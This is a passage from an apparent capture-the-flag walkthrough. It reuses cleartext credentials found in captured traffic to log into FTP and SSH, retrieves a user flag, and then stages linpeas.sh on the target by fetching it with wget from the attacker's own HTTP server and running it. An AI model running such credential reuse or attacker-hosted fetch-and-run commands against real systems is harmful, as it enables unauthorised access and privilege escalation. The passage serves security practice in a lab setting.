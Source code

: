 Scrolling over to the right we can see the credentials in clear text in the `info` column.
![](/ox-hugo/2025-05-21-201236_.png)

Lets test the creds `nathan:Buck3tH4TF0RM3!` on the FTP service.


## 2. Foothold: {#2-dot-foothold}



### Logging Into FTP As Nathan: {#logging-into-ftp-as-nathan}

```shell
ftp $box
```

{{< figure src="/ox-hugo/2025-05-21-201616_.png" >}}

The credentials work!

Checking the contents of the server shows one file `user.txt`
![](/ox-hugo/2025-05-21-202017_.png)

Let's download it
![](/ox-hugo/2025-05-21-202054_.png)

Checking it, it just contains our user flag.
![](/ox-hugo/2025-05-21-202137_.png)


### Logging Into SSH As Nathan: {#logging-into-ssh-as-nathan}

Checking for credential use we find that the found creds also work for SSH.

```shell
ssh nathan@$box
```

{{< figure src="/ox-hugo/2025-05-21-202349_.png" >}}


### Using Linpeas For Privesc Enumeration: {#using-linpeas-for-privesc-enumeration}

We can copy [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) over easily using a python server.

```shell
#Let's grab the script first.
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250518-5781f7e5/linpeas.sh
# Start our server
python3 -m http.server 9000

#Then on the target
wget http://[yourAttackBox]:9000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
